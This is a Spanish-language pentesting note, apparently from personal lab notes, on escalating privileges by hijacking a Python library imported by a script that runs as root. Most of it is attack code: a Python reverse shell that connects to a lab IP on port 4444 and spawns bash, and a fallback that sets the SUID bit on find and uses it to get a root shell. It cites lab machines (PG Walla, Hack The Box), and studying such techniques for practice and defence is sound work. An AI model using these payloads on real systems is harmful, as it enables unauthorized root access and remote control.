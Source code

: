 
## DESCRIPTION

Si encontramos un script en python que se puede ejecutar como root y que da error en una librería en un import, podemos intentar sustituirla (creándola en el directorio donde esta el script de primeras si no ver las envs)

![[Pasted image 20230704204419.png]]

![[Pasted image 20230704204546.png]]

#### Mas información
* https://grumpygeekwrites.wordpress.com/2021/09/18/offensive-security-pg-practice-walla-walk-through-tutorial-writeup/


## EXPLOITATION

1. Podemos poner una reverse shell:

```
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()

```


**!!NOTA IMPORTANTE!!** 

Si falla podemos probar a ejecutar comando del sistema, por ejemplo darle el bit s a find

```
import os

os.system("chmod +s /usr/bin/find");
```

![[Pasted image 20230704204738.png]]

De esta forma cuando lo ejecutemos con sudo se establecera este permiso que posteriormente ejecutando: `/usr/bin/find . -exec /bin/sh -p \; -quit` tendremos la shell como root
## MACHINES

* Hack The Box: 
* PG: Walla

**!!NOTA IMPORTANTE!!** 